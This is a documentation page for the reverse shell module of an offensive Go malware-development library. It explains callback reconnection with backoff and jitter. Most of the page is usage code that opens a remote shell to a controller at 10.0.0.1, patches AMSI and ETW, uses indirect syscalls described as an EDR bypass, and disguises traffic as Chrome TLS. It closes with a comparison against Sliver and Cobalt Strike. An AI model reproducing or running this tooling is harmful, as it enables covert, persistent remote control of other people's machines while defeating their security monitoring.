


# Reverse Shell

[<- Back to C2 Overview](README.md)

**MITRE ATT&CK:** [T1059.004 - Command and Scripting Interpreter: Unix Shell](https://attack.mitre.org/techniques/T1059/004/)
**D3FEND:** [D3-OCA - Outbound Connection Analysis](https://d3fend.mitre.org/technique/d3f:OutboundConnectionAnalysis/)

---

## Primer

A reverse shell flips the normal connection direction. Instead of you connecting to a remote computer, the remote computer connects to you. This is essential in post-exploitation because firewalls typically block inbound connections but allow outbound ones.

**Your computer calls home to a control server, like a spy calling headquarters.** If the call drops, the spy waits a bit and calls again -- each time waiting a little longer (exponential backoff) with some randomness (jitter) so the pattern is not predictable.

---

## How It Works

### Shell Lifecycle State Machine

The shell follows a strict state machine with six phases. Transitions are thread-safe and enforced -- you cannot call `Start()` on a running shell or `Stop()` on an idle one.



### Reconnection with Exponential Backoff



The backoff formula:

```text
waitTime = currentWait + random(-jitter, +jitter)
currentWait = min(currentWait * 2, MaxBackoff)
```

Default values:
- `ReconnectWait`: 5 seconds (base delay)
- `MaxBackoff`: 5 minutes (ceiling)
- `JitterFactor`: 0.25 (plus/minus 25%)

---

## Usage

### Basic Reverse Shell (TCP)

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
)

trans := transport.NewTCP("10.0.0.1:4444", 10*time.Second)

sh := shell.New(trans, &shell.Config{
    MaxRetries:    0,             // unlimited retries
    ReconnectWait: 5 * time.Second,
    MaxBackoff:    5 * time.Minute,
    JitterFactor:  0.25,
})

ctx := context.Background()
if err := sh.Start(ctx); err != nil {
    // handle error
}
```

### TLS Reverse Shell with Evasion

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

// Transport with TLS + cert pinning
trans := transport.NewTLS("10.0.0.1:443", 10*time.Second,
    "client.crt", "client.key",
    transport.WithFingerprint("A1B2C3D4..."),
    transport.WithInsecure(true),
)

// Syscall caller for evasion bypass
caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewTartarus())
defer caller.Close()

sh := shell.New(trans, &shell.Config{
    MaxRetries:    10,
    ReconnectWait: 3 * time.Second,
    MaxBackoff:    2 * time.Minute,
    JitterFactor:  0.3,
    Evasion:       []evasion.Technique{amsi.Technique(), etw.Technique()},
    Caller:        caller,
})

ctx, cancel := context.WithCancel(context.Background())
defer cancel()

go sh.Start(ctx)

// Monitor state changes
for {
    phase := sh.CurrentPhase()
    fmt.Println("Phase:", phase)
    if phase == shell.PhaseStopped {
        break
    }
    time.Sleep(time.Second)
}
```

### Graceful Shutdown

```go
// Stop the shell from another goroutine
if err := sh.Stop(); err != nil {
    log.Println("stop error:", err)
}

// Block until fully terminated
sh.Wait()
```

---

## Combined Example: Full Operator Shell

```go
package main

import (
    "context"
    "os"
    "os/signal"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // Indirect syscalls for all evasion
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewTartarus(), wsyscall.NewHalosGate()),
    )
    defer caller.Close()

    // uTLS transport disguised as Chrome
    trans := transport.NewUTLS("10.0.0.1:443", 10*time.Second,
        transport.WithJA3Profile(transport.JA3Chrome),
        transport.WithUTLSInsecure(true),
    )

    sh := shell.New(trans, &shell.Config{
        MaxRetries:    0, // never give up
        ReconnectWait: 5 * time.Second,
        MaxBackoff:    5 * time.Minute,
        JitterFactor:  0.25,
        Evasion: []evasion.Technique{
            amsi.Technique(),
            etw.Technique(),
        },
        Caller: caller,
    })

    // Graceful shutdown on SIGINT
    ctx, cancel := context.WithCancel(context.Background())
    sigCh := make(chan os.Signal, 1)
    signal.Notify(sigCh, os.Interrupt)
    go func() {
        <-sigCh
        cancel()
    }()

    sh.Start(ctx)
}
```

---

## Advantages & Limitations

### Advantages

- **Automatic reconnection**: Exponential backoff with jitter prevents predictable callback patterns
- **State machine**: Thread-safe lifecycle management prevents invalid state transitions
- **Transport agnostic**: Works with any `transport.Transport` implementation (TCP, TLS, uTLS, malleable HTTP)
- **Evasion integration**: AMSI/ETW patches applied automatically before shell session starts
- **Cross-platform**: PTY on Unix, direct I/O on Windows
- **Caller passthrough**: EDR bypass for evasion techniques via `*wsyscall.Caller`

### Limitations

- **No encryption on TCP**: Use TLS or uTLS transport for encrypted channels
- **No interactive resize**: PTY size is not dynamically adjusted on window resize
- **Windows cmd.exe**: No PTY support on Windows -- uses direct stdin/stdout/stderr binding
- **Single shell**: Each `Shell` instance manages one session at a time

---

## Compared to Other Implementations

| Feature | maldev | Sliver | Cobalt Strike | Mythic |
|---------|--------|--------|---------------|--------|
| Language | Go | Go | Java/C | Python/Go |
| Auto-reconnect | Yes (backoff + jitter) | Yes | Yes | Yes |
| State machine | Yes (6 phases) | Internal | Internal | Internal |
| Transport plugins | Yes (interface) | Yes | Yes (profiles) | Yes (agents) |
| Evasion integration | Yes (Caller) | Partial | Yes | Agent-specific |
| Cross-platform | Yes (PTY/direct) | Yes | Windows-focused | Agent-specific |

---

## API Reference

### Shell

```go
func New(trans transport.Transport, cfg *Config) *Shell
func (s *Shell) Start(ctx context.Context) error
func (s *Shell) Stop() error
func (s *Shell) Wait()
func (s *Shell) CurrentPhase() Phase
func (s *Shell) IsRunning() bool
```

### Config

```go
type Config struct {
    ShellPath     string             // "cmd.exe" or "/bin/sh"
    ShellArgs     []string
    MaxRetries    int                // 0 = unlimited
    ReconnectWait time.Duration      // base delay (default 5s)
    MaxBackoff    time.Duration      // ceiling (default 5m)
    JitterFactor  float64            // +/- percentage (default 0.25)
    Evasion       []evasion.Technique
    Caller        evasion.Caller     // *wsyscall.Caller or nil
}
```

### Phase

```go
type Phase int

const (
    PhaseIdle         Phase = iota
    PhaseConnecting
    PhaseConnected
    PhaseRunning
    PhaseReconnecting
    PhaseStopped
)
```
